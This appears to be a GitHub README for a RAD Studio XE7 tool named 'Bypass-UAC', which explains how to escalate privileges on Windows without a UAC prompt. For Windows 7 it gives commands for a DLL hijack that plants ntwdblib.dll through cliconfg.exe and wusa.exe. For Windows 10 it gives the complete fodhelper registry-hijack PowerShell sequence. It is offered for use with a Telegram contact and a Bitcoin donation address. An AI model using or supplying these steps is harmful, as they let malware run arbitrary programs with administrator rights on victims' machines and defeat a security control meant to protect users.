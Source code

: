 <h1 align="center">Bypass-UAC Rad Studio XE7</h1>

Windows 7
Both Dlls (under 64 bits and 32 bits) will be packed into a .cab archive by a command from cmd with administrator rights
(Example: makecab "C:\dll\Win64\ntwdblib.dll" "C:\ntwdblib64.cab")
ntwdblib32.cab and ntwdblib64.cab are already written in the code as an array of strings, in the execonsole project
to translate the ntwdblib32.cab file into an array of strings, you can use the code from the conststring project
We use the process vulnerability from the white list "%systemroot%\system32\cliconfg.exe"
Programmatically, using the update installer "%systemroot%\system32\wusa.exe" (it is also in the windows white list)
(Example: wusa "%temp%\ntwdblib.cab" /quiet /extract:%systemroot%\system32\)
do unpacking ntwdblib64.cab or ntwdblib32.cab depending on bitness
to the directory "%systemroot%\system32\ntwdblib.dll"
We start the process "%systemroot%\system32\cliconfg.exe" with user rights, but considering that it is in the windows white list
it executes itself with administrator privileges and loads our dll library "%systemroot%\system32\ntwdblib.dll"
in connection with which it inherits administrator rights and is able to execute any PE file bypassing the UAC window.


Windows 10
We use the vulnerability of the process from the white list "fodhelper.exe"
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "path to our file" -Force
powershell New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
powershell Start-Process "fodhelper.exe"
powershell Remove-Item "HKCU:\Software\Classes\ms-settings\shell\open\command" -Recurse -Force

-------
### Video
[![video](https://i.postimg.cc/rw9fmbs8/maxresdefault.jpg)](https://youtu.be/VKTAxeYmjFI)

-------

### Support
Telegram: @Official_Mr_Robot

BTC: 1PoieWSbe1A7o2nAuXE37ncQHnGqxcdhJc
